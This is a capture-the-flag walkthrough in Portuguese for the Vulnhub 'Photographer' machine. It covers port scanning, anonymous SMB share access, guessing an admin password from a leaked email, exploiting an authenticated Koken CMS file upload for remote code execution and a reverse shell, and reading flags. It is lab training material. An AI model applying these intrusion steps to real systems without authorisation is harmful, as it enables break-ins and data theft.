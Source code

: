 ```yaml
---
title: Photographer
category: Vulnhub
---
```


## Enumeration

- Executado enumeração de portas utilizando NMAP

```bash
PORT     STATE SERVICE     REASON  VERSION   
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                           
|   2048 41:4d:aa:18:86:94:8e:88:a7:4c:6b:42:60:76:f1:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCq9GoYsvJTOUcsgHSES9+20Ix4Q8wjm5slMheJ2ME+COokAqxBzXSr458KBmHv3bsTLWAH9FxoXJ6zrzDPmPApcqVifB4aI9l/VYxoeJCj54kKIQlCKkWTZjsAeLBI2Lk2+yJLLFWPTAZ2htwRAwCl9z8YV3xgtqhTa+5BqIm/GInW4PYV0zi9zOMn2g4jNSWvy
91FBUboGLwVgNYslGBydNW8Fhz8X/LXHZ1x6ulA76W026VEGOiQfoiIi84IFi9CbP8GIKfQ7BHuDlMqgiN9+w7K0z0oFdtiFhAS/48w89MYn6UOzw7Aaa9eLQi0+zxpW5SpCpw0mC2euzPxow2Z
|   256 4d:a3:d0:7a:8f:64:ef:82:45:2d:01:13:18:b7:e0:13 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz4UG2gfu7L/Lxcqek1pZf46d8SocbES1A2a/XUYQgTmIqJuCEpLf3ERgVXS+7Lwdi6+F3xkI/lYFCA5MkRUQA=
|   256 1a:01:7a:4f:cf:95:85:bf:31:a1:4f:15:87:ab:94:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDL5ZwzA5dpqtWx4ZzjVQ6NMzVUia8/We8txfiAn+mv4
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:                            
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4  
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Koken 0.22.24  
| http-methods:                                       
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi                     
|_http-trane-info: Problem with XML parsing of /evox/about 
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Porta 445

- Como a porta 445 é uma porta SMB, não comumente disponivel em maquinas linux, iniciado a enumeração da maquina por esta, a qual, a partir de um scan com o smbmap, lista permissão de leitura no share **sambashare**

```bash
$ smbmap -H 192.168.164.76                                
[+] Guest session       IP: 192.168.164.76:445  Name: unknown                                             
        Disk                            Permissions     Comment
        ----                            -----------     -------
        print$                          NO ACCESS       Printer Drivers           
        sambashare                      READ ONLY       Samba on Ubuntu           
        IPC$                            NO ACCESS       IPC Service (photographer server (Samba, Ubuntu))
```
  
- Ao acessar o share, encontrado dois arquivos, os quais foram transferidos para a maquina local.

```bash
$ smbclient //192.168.164.76/sambashare                                                                   Enter WORKGROUP\zurc's password: 
Try "help" to get a list of possible commands.                                                                       
smb: \> dir                                                                                                          
  .                                   D        0  Thu Aug 20 12:51:08 2020                      
  ..                                  D        0  Thu Aug 20 13:08:59 2020                               
  mailsent.txt                        N      503  Mon Jul 20 22:29:40 2020                           
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 22:22:23 2020                                               
                3300080 blocks of size 1024. 2958792 blocks aailable
```
  
- O primeiro arquivo, **mailsent.txt** contem uma mensagem de e-mail enviada, conforme abaixo, enquanto o segundo arquivo aparentemente se trata de uma instalaçao default do wordpress pt-br 5.4.2.

```bash
cat ../loot/mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
                                                          
```

### Porta 8000

- Após ler a mensagem de e-mail compartilhada acima, algo chamou a atenção no scan da porta 8000, que executa um website chamado Koken. Ao buscar **koken** no searchsploit, retornado informaçao de um upload de arquivo arbitrario, porem autenticado, o que bate com a versão instalada de acordo com o scan do Nmap

```bash
$ searchsploit koken      
---------------------------------------------------------------------- ------------------------
  Exploit Title                                                        |  Path
---------------------------------------------------------------------- ------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)             | php/webapps/48706.txt
----------------------------------------------------------------------------------- -----------
```

- Ao tentar acessar a pagina `<website>:8000/admin`, validado que os atributos solicitados eram o e-mail e senha. Uma vez que o e-mail já temos com base na mensagem de e-mail a senha pode ser alguma combinação do trecho onde é mencionado "secret" no corpo da mensagem, onde **babygirl** funcionou com sucesso

- Após seguir procedimento compartilhado no N-day 48706 do searchsploit, obtido execuçao remota de código a partir da url `http://192.168.164.76:8000/storage/originals/01/5f/image.php` e, consequentemente, um shell reverso

## Escalação de privilégios

- Com a conta com a conta www-data, obtido flag user

```bash
www-data@photographer:/home/daisa$ dir
dir
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  examples.desktop  local.txt  user.txt
www-data@photographer:/home/daisa$ cat user.txt
cat user.txt
This is not the flag you're looking for...
www-data@photographer:/home/daisa$ cat local.txt
cat local.txt
d45321b5893db0c11454b00ddef9e546
www-data@photographer:/home/daisa$ 

```
